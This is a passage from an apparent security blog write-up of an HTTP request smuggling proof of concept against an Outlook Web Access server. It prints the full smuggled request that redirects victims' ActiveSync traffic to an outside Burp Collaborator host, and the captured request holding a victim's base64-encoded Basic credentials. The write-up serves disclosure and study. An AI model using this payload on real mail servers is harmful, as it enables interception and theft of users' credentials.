 We currently know that a successful HRS attack can redirect a victim to a rogue server, that mail clients maintain the request method and most likely also the headers and body, and we know that victims sent their base64 encoded credentials in every ActiveSync request. This means we're just one step away from capturing these credentials.

Capturing request headers on our rogue server can be done in various ways. For this proof-of-concept I chose to use Burp Collaborator ({% customlink "https://portswigger.net/burp/documentation/collaborator" %}), which acts as a catch all server for HTTP and various other protocols.

I altered the initial HRS request to redirect the victim to my Burp Collaborator URI instead of `hacker.com`. The final request is included below

{% highlightcode http %}
    POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
    REPLACE-WITH-SPACETransfer-Encoding: chunked
    Connection: keep-alive
    Host: owa.customer.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: nl,en-US;q=0.7,en;q=0.3
    Accept-Encoding: gzip, deflate
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 165
    
    44
    6kqfa=x&url=https%3a%2f%2fowa.customer.com%2fowa%2f&reason=0&whfto=x
    0
    
    GET https://xcdf8ar1e2dnaqc1t7ebdyt8gzp5e.burpcollaborator.net/ HTTP/1.1
    X-Ignore: 1
{% endhighlightcode %}
   
A few moments later, as expected, Burp Collaborator catches the ActiveSync request from the victim 🎉.

{% highlightcode http %}
    POST /Microsoft-Server-ActiveSync?User=bob@customer.com&DeviceId=e1568c571e684e0fb1724da85d215dc0&DeviceType=iPhone&Cmd=FolderSync
    Host: xcdf8ar1e2dnaqc1t7ebdyt8gzp5e.burpcollaborator.net
    Content-Type: application/vnd.ms-sync.wbxml
    Accept: */*
    Accept-Language: nl-nl
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    MS-ASProtocolVersion: 14.1
    User-Agent: Apple-iPhone11C8/1804.70
    Authorization: Basic Y3VzdG9tZXIuY29tXGJvYjpodW50ZXIy
    Content-Lengh: 13
    X-MS-PolicyKey: 0
    
    jVR0
{% endhighlightcode %}
    
We have successfully captured the Authorization header which contains the encoded credentials of the victim.
